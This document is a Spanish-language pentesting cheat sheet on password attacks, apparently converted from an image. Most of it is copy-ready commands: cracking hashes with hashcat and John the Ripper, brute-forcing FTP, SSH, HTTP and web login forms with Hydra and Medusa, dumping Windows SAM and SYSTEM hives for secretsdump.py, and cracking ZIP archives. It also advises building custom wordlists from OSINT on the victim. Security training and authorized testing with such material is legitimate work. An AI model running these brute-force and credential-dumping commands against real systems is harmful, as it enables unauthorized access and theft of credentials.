 **Cheat Sheet: Ataques a Contraseñas en Pentesting**

---

### 1. **Tipos Comunes de Hashes y su Identificación**

| Tipo de Hash | Ejemplo | Identificación | Notas |
|--------------|---------|------------------|-------|
| NTLM         | 32c6ee... | Longitud 32 caracteres hex | Windows |
| MD5          | 5f4dcc... | Longitud 32 caracteres hex | Muy común, pero vulnerable |
| SHA1         | aaf4c6... | Longitud 40 caracteres hex | Mejor que MD5, pero roto |
| bcrypt       | $2y$10$... | Comienza con `$2a$`, `$2b$` o `$2y$` | Más seguro, incluye salt |

Herramienta para identificar hashes:
```bash
hash-identifier
```

---

### 2. **Crackeo de Hashes con Hashcat**

```bash
hashcat -m <modo> -a 0 <archivo_hashes> <diccionario>
```

Ejemplo para NTLM:
```bash
hashcat -m 1000 -a 0 hashes.txt rockyou.txt
```

Modos comunes:
- `0`: MD5
- `100`: SHA1
- `500`: md5crypt
- `1000`: NTLM
- `1800`: sha512crypt
- `3200`: bcrypt

---

### 3. **Crackeo de Hashes con John the Ripper**

Preparar archivo:
```bash
john --format=raw-md5 hashes.txt --wordlist=rockyou.txt
```

Soporta NTLM:
```bash
john --format=NT hashes.txt --wordlist=rockyou.txt
```

Ver resultados:
```bash
john --show hashes.txt
```

---

### 4. **Ataques por Fuerza Bruta y Diccionario con Hydra**

```bash
hydra -l <usuario> -P <diccionario> <protocolo>://<objetivo>
```

Ejemplos:
- FTP:
```bash
hydra -l admin -P rockyou.txt ftp://192.168.1.100
```
- SSH:
```bash
hydra -l root -P rockyou.txt ssh://192.168.1.100
```
- HTTP (básico):
```bash
hydra -l admin -P rockyou.txt 192.168.1.100 http-get /login
```

---

### 5. **Ataques con Medusa (alternativa a Hydra)**

```bash
medusa -h <host> -u <usuario> -P <diccionario> -M <servicio>
```

Ejemplo:
```bash
medusa -h 192.168.1.100 -u root -P rockyou.txt -M ssh
```

---

### 6. **Ataques a Formularios Web con Hydra**

```bash
hydra -l admin -P rockyou.txt <IP> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Login failed"
```

- `F=` indica el mensaje de error al fallar el login

---

### 7. **Obtención de Hashes en Sistemas Windows**

- Desde acceso con privilegios:
```powershell
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
```

- Luego usar `secretsdump.py`:
```bash
secretsdump.py -system system -sam sam LOCAL
```

---

### 8. **Fuerza Bruta a archivos Zip/RAR/7z**

Con `fcrackzip`:
```bash
fcrackzip -u -D -p rockyou.txt archivo.zip
```

Con `john` para ZIP:
```bash
zip2john archivo.zip > archivo.hash
john archivo.hash --wordlist=rockyou.txt
```

---

### 9. **Diccionarios y Herramientas úteis**

- Diccionario común:
  - `/usr/share/wordlists/rockyou.txt`
  - `SecLists` (repositorio)

- Herramientas:
  - `Crunch`: Generador de diccionarios
  - `CeWL`: Crawler para crear diccionarios específicos
  - `hashid`, `hash-identifier`: Identificadores de hashes

---

### 10. **Tips y Buenas Prácticas**

- Usa GPU con Hashcat siempre que sea posible
- Filtra hash duplicados antes de crackear
- Prioriza ataques por diccionario sobre fuerza bruta pura
- Utiliza diccionarios personalizados si tienes información sobre la víctima (OSINT)



